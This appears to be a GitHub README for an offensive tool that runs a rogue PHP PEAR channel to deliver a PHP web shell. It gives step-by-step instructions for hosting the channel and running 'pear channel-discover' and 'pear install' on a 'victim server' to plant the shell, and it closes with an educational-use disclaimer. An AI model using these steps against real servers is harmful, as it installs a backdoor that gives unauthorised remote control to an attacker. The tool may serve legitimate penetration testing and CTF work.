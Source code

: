 # Pear-Rogue-Channel
## About
Pear-Rogue-Channel is a custom, self-hosted PHP Pear channel that does one thing: serve a PHP web shell.
## How to use
1. Generate necessary files
```bash
./main.php
```
2. Move all files in `public_html` to the document root (such as `/var/www/html/`) of your web server.
3. Try to execute the following pear commands on the victim server:
```bash
pear channel-discover SERVER_HOST_NAME
pear install CHANNEL_ALIAS/PACKAGE_NAME
```
4. Viola!
## Advisory
All files and scripts should be used for educational purposes, legal penetration testing, and/or CTF competitions. Please don't use them for illegal activities. :cat: